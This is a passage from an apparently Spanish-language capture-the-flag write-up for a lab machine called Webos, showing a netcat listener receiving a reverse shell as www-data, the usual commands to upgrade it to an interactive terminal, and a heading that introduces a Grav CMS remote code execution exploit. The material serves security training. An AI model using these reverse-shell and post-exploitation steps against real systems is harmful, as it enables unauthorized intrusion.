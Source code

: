<img src="/assets/images/THL-writeup-webos/Captura14.png">
</p>

Una vez que guardes los cambios, vuelve a la página, recárgala y observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.10] 47350
bash: cannot set terminal process group (509): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheHackersLabs-Webos:/var/www/html$ whoami
whoami
www-data
```
Estamos dentro.

Ya solo falta obtener una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
Continuemos.

<br>

<h3 id="Exploit2">Probando Exploit: Grav CMS Remote Code Execution (Authenticated) - CVE-2024-28116</h3>
